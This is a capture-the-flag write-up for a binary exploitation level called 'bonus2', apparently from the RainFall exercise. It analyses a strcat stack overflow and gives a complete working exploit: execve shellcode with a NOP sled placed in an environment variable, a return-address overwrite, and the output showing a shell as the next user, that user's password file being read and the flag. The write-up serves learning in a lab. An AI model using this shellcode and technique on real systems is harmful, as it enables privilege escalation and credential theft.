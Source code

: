 # Bonus2

## **Binary Analysis**

After analyzing the binary with GDB, we found that the program takes two command-line arguments.

- The `main` function creates a 160-byte buffer and uses `strncpy` to copy the first argument (maximum 40 bytes) and the second argument (maximum 32 bytes). It then checks for the environment variable `LANG` and sets a global variable accordingly:
    - `LANG=fi` → 1
    - `LANG=nl` → 2
    - Otherwise → 0

```nasm
; Arguments check
0x08048532 <+9>:     sub    $0xa0,%esp        ; Allocates 160 bytes
0x08048538 <+15>:    cmpl   $0x3,0x8(%ebp)    ; Checks for 3 arguments

; Buffer operations
0x08048548 <+31>:    lea    0x50(%esp),%ebx   ; Buffer at esp+0x50
0x0804854c <+35>:    mov    $0x0,%eax         ; Zero initialization
0x08048551 <+40>:    mov    $0x13,%edx        ; Size 0x13 (19)

; First strncpy
0x08048564 <+59>:    movl   $0x28,0x8(%esp)   ; Size 0x28 (40)
0x0804857c <+83>:    mov    0xc(%ebp),%eax    ; argv[1]
0x08048577 <+78>:    call   0x80483c0 <strncpy@plt>

; Second strncpy
0x08048584 <+91>:    movl   $0x20,0x8(%esp)   ; Size 0x20 (32)
0x0804858c <+99>:    mov    %eax,0x4(%esp)    ; argv[2]
0x08048590 <+103>:   lea    0x50(%esp),%eax
0x08048594 <+107>:   add    $0x28,%eax        ; Buffer + 40

; Environment check
0x0804859f <+118>:   movl   $0x8048738,(%esp) ; "LANG" environment variable
0x080485a6 <+125>:   call   0x8048380 <getenv@plt>

; Final function call
0x0804862b <+258>:   call   0x8048484 <greetuser>

```

- The `greetuser` function creates a 72-byte buffer based on the `LANG` value, copies different greetings, and appends the main buffer using `strcat`.
    - Default: "Hello "
    - `LANG=fi`: "Hyvää päivää"
    - `LANG=nl`: "Goedemiddag! "
    - The result is printed using `puts`.

```nasm
; Buffer setup
0x08048487 <+3>:     sub    $0x58,%esp      ; Allocates 88 bytes
0x080484a2 <+30>:    lea    -0x48(%ebp),%eax ; Buffer at ebp-72

; Critical vulnerability
0x0804850a <+134>:   lea    0x8(%ebp),%eax   ; Source (our input)
0x08048511 <+141>:   lea    -0x48(%ebp),%eax ; Destination buffer
0x08048517 <+147>:   call   0x8048370 <strcat@plt> ; Vulnerable strcat!

```

## **Vulnerability**

We found a buffer overflow in `greetuser`. The `strcat` function is used without bounds checking. The total bytes written are:

- "Goedemiddag! " (12 bytes)
- `arg1` (40 bytes)
- `arg2` (32 bytes)
- **Total = 84 bytes**

Since the buffer size is **72 bytes**, the overflow is:

```
84 - 72 = 12 bytes (overflow into return address)

```

## **Exploit**

To exploit this, we store our shellcode in memory using the environment variable `LANG` and retrieve the buffer start address.

1. Environment Setup:

```bash
# Set Dutch language for the longest greeting
export LANG=nl

# Create shellcode with NOP sled
export SHELLCODE=$(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')

```

2. Return Address Calculation:

```nasm
(gdb) b main
(gdb) r
(gdb) x/s *((char **)environ)
0xbffff862: "SHELLCODE=\x90\x90\x90..."

```

- Start of `SHELLCODE`: `0xbffff862`
- "SHELLCODE=" (9 bytes offset) → `0xbffff86b`
- We can use a return address range from `0xbffff86b` to `0xbffff8d5`

3. Exploit Code:

```bash
./bonus2 `python -c 'print "A"*40'` `python -c 'print "B"*23 + "\xd5\xf8\xff\xbf"'`
```

The program copies our `Goedemiddag!` , first, and second arguments into memory:

```
Memory layout:
|--12 bytes--|------------40 'A's------------------|--------23 'B's--------| |--ret addr--|

```

4. Result:

```bash
bonus2@RainFall:~$ ./bonus2 `python -c 'print "A"*40'` `python -c 'print "B"*23 + "\xd5\xf8\xff\xbf"'`
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBB����
$ whoami
bonus3
$  cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
$
```

## **Flag**

```nasm
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
